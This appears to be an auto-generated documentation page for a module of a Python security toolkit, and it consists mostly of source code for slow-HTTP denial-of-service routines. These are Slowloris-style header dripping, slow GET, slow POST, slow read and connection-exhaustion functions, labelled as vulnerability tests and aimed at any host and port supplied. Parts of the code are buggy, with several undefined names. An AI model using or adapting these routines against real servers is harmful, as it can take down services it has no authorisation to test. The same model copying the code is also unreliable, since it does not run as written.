 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.scanners.network_protocols.amplifier</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.scanners.network_protocols.chargen import *
from bane.scanners.network_protocols.dns import *
from bane.scanners.network_protocols.echo import *
from bane.scanners.network_protocols.memcache import *
from bane.scanners.network_protocols.ntp import *
from bane.scanners.network_protocols.snmp import *
from bane.scanners.network_protocols.ssdp import *


&#34;&#34;&#34;
&#39;&#39;&#39;
  the following functions are used to check any kind of Slow HTTP attacks vulnerabilities that will lead to a possible DoS.
&#39;&#39;&#39;

def build_get(u,p,timeout=5):
    s =socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((u,p))
    if ((p==443 ) or (p==8443)):
     s=ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
    s.send(&#34;GET {} HTTP/1.1\r\n&#34;.format(random.choice(paths)).encode(&#34;utf-8&#34;))
    s.send(&#34;User-Agent: {}\r\n&#34;.format(random.choice(ua)).encode(&#34;utf-8&#34;))
    s.send(&#34;Accept-language: en-US,en,q=0.5\r\n&#34;.encode(&#34;utf-8&#34;))
    s.send(&#34;Connection: keep-alive\r\n&#34;.encode(&#34;utf-8&#34;))
    return s

def headers_timeout_test(u,port=80,timeout=5,max_timeout=30,logs=True):
 i=0
 if logs==True:
  print(&#34;[*]Test has started:\nTarget: {}\nPort: {}\nInitial connection timeout: {}\nMax interval: {}&#34;.format(u,port,timeout,max_timeout))
 try:
  s=build_get(u,port,timeout=timeout)
  i+=1
 except:
  if logs==True:
   print(&#34;[-]Connection failed&#34;)
  return 0
 if i&gt;0:
  j=0
  while True:
   try:
    j+=1
    if j&gt;max_timeout:
     break
    if logs==True:
     print(&#34;[*]Sending payload...&#34;)
    s.send(&#34;X-a: {}\r\n&#34;.format(random.randint(1, 5000)).encode(&#34;utf-8&#34;))
    if logs==True:
     print(&#34;[+]Sleeping for {} seconds...&#34;.format(j))
    time.sleep(j)
   except:
    if logs==True:
     print(&#34;==&gt;timed out at: {} seconds&#34;.format(j))
     break
    return j
  if j&gt;max_timeout:
   if logs==True:
    print(&#34;==&gt;Test has reached the max interval: {} seconds without timing out&#34;.format(duration))
   return j

def slow_get_test(u,port=80,timeout=5,interval=5,randomly=False,duration=180,logs=True,min_wait=1,max_wait=5):
 i=0
 if logs==True:
  print(&#34;[*]Test has started:\nTarget: {}\nPort: {}\nInitial connection timeout: {}\nInterval between packets:{}\nTest duration: {} seconds&#34;.format(u,port,timeout,interval,duration))
 try:
  s=build_get(u,port,timeout=timeout)
  i+=1
 except:
  if logs==True:
   print(&#34;[-]Connection failed&#34;)
  return 0
 if i&gt;0:
  j=time.time()
  while True:
   try:
    ti=time.time()
    if int(ti-j)&gt;=duration:
     break
    if logs==True:
     print(&#34;[*]Sending payload...&#34;)
    s.send(&#34;X-a: {}\r\n&#34;.format(random.randint(1, 5000)).encode(&#34;utf-8&#34;))
    t=interval
    if randomly==True:
     t=random.randint(min_wait,max_wait)
    if logs==True:
     print(&#34;[+]Sleeping for {} seconds...&#34;.format(t))
    time.sleep(t)
   except Exception as e:
    pass
    if logs==True:
     print(&#34;==&gt;timed out at: {} seconds&#34;.format(int(ti-j)))
    return int(ti-j)
    break
  if int(ti-j)&gt;=duration:
   if logs==True:
    print(&#34;==&gt;Test has reached the max interval: {} seconds without timing out&#34;.format(duration))
   return int(ti-j)

def max_connections_limit(u,port=80,connections=150,timeout=5,duration=180,logs=True,payloads=True):
 l=[]
 if logs==True:
  print(&#34;[*]Test has started:\nTarget: {}\nPort: {}\nConnections to create: {}\nInitial connection timeout: {}\nTest duration: {} seconds&#34;.format(u,port,connections,timeout,duration))
 ti=time.time()
 while True:
  if int(time.time()-ti)&gt;=duration:
   if logs==True:
    print(&#34;[+]Maximum time for test has been reached!!!&#34;)
    break
   return len(l)
  if len(l)==connections:
   if logs==True:
    print(&#34;[+]Maximum number of connections has been reached!!!&#34;)
   if returning==True:
    return connections 
   break
  try:
   so=build_get(u,port,timeout=timeout)
   l.append(so)
  except Exception as e:
   pass
  if payloads==True:
   for s in l:
    try:
     s.send(&#34;X-a: {}\r\n&#34;.format(random.randint(1, 5000)).encode(&#34;utf-8&#34;))
    except:
     l.remove(s)
  if logs==True:
   print(&#34;[!]Sockets: {} Time: {} seconds&#34;.format(len(l),int(time.time()-ti)))

def build_post(u,p,timeout=5,size=10000):
 s =socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.settimeout(timeout)
 s.connect((u,p))
 if ((p==443 ) or (p==8443)):
  s=ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
 s.send(&#34;POST {} HTTP/1.1\r\nUser-Agent: {}\r\nAccept-language: en-US,en,q=0.5\r\nConnection: keep-alive\r\nKeep-Alive: {}\r\nContent-Length: {}\r\nContent-Type: application/x-www-form-urlencoded\r\nHost: {}\r\n\r\n&#34;.format(random.choice(paths),random.choice(ua),random.randint(300,1000),size,u).encode(&#34;utf-8&#34;))
 return s

def slow_post_test(u,port=80,logs=True,timeout=5,size=10000,duration=180,randomly=False,wait=1,min_wait=1,max_wait=5):
 i=0
 if logs==True:
  print(&#34;[*]Test has started:\nTarget: {}\nPort: {}\nData length to post: {}\nInitial connection timeout:{}\nTest duration: {} seconds&#34;.format(u,port,size,timeout,duration))
 try:
  s=build_post(u,port,timeout=timeout,size=size)
  i+=1
 except Exception as e:
  if logs==True:
   print(&#34;[-]Connection failed&#34;)
  return 0
 j=0
 if i&gt;0:
  t=time.time()
  while True:
   if int(time.time()-t)&gt;=duration:
    if logs==True:
     print(&#34;[+]Maximum time has been reached!!!\n==&gt;Size: {}\n==&gt;Time: {}&#34;.format(j,int(time.time()-t)))
    return int(time.time()-t)
   if j==size:
    if logs==True:
     print(&#34;[+]Maximum size has been reached!!!\n==&gt;Size: {}\n==&gt;Time: {}&#34;.format(j,int(time.time()-t)))
    return int(time.time()-t)
   try:
    h=random.choice(lis)
    s.send(h.encode(&#34;utf-8&#34;))
    j+=1
    if logs==True:
     print(&#34;Posted: {}&#34;.format(h))
    if randomly==True:
     time.sleep(random.randint(min_wait,max_wait))
    if randomly==False:
     try:
      time.sleep(wait)
     except KeyboardInterrupt:
      if logs==True:
       print(&#34;[-]Cant send more\n==&gt;Size: {}\n==&gt;Time:{}&#34;.format(j,int(time.time()-t)))
      return int(time.time()-t)
   except Exception as e:
    if logs==True:
     print(&#34;[-]Cant send more\n==&gt;Size: {}\n==&gt;Time:{}&#34;.format(j,int(time.time()-t)))
    return int(time.time()-t)

def slow_read_test(u,port=80,logs=True,timeout=5,duration=180,randomly=False,wait=5,min_wait=1,max_wait=10):
  i=0
  if logs==True:
   print(&#34;[*]Test has started:\nTarget: {}\nPort: {}\nInitial connection timeout: {}\nTest duration: {} seconds&#34;.format(u,port,timeout,duration))
  ti=time.time()
  try: 
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((u,port))
    if ((port==443 ) or (port==8443)):
     s=ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
    while True:
     if time.time()-ti&gt;=duration:
      if logs==True:
       print(&#34;[+]Maximum time has been reached!!!&#34;)
      return int(time.time()-ti)
     pa=random.choice(paths)
     try:
      g=random.randint(1,2)
      if g==1:
       s.send(&#34;GET {} HTTP/1.1\r\nUser-Agent: {}\r\nAccept-language: en-US,en,q=0.5\r\nConnection: keep-alive\r\nKeep-Alive: {}\r\nHost: {}\r\n\r\n&#34;.format(pa,random.choice(ua),random.randint(300,1000),u).encode(&#34;utf-8&#34;))
      else:
       q=&#39;q=&#39;
       for i in range(10,random.randint(20,50)):
        q+=random.choice(lis)
       s.send(&#34;POST {} HTTP/1.1\r\nUser-Agent: {}\r\nAccept-language: en-US,en,q=0.5\r\nConnection: keep-alive\r\nKeep-Alive: {}\r\nContent-Length: {}\r\nContent-Type: application/x-www-form-urlencoded\r\nHost: {}\r\n\r\n{}&#34;.format(pa,random.choice(ua),random.randint(300,1000),len(q),u,q).encode(&#34;utf-8&#34;))
      d=s.recv(random.randint(1,3))
      if logs==True:
       print(&#34;Received: {}&#34;.format(str(d.decode(&#39;utf-8&#39;))))
      print(&#34;sleeping...&#34;)
      if randomly==True:
       time.sleep(random.randint(min_wait,max_wait))
      if randomly==False:
       time.sleep(wait)
     except:
      break
    s.close()
  except Exception as e:
    pass
  if logs==True:
   print(&#34;==&gt;connection closed at: {} seconds&#34;.format(int(time.time()-ti)))
  return int(time.time()-ti)

&#34;&#34;&#34;</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.scanners.network_protocols" href="index.md">bane.scanners.network_protocols</a></code></li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>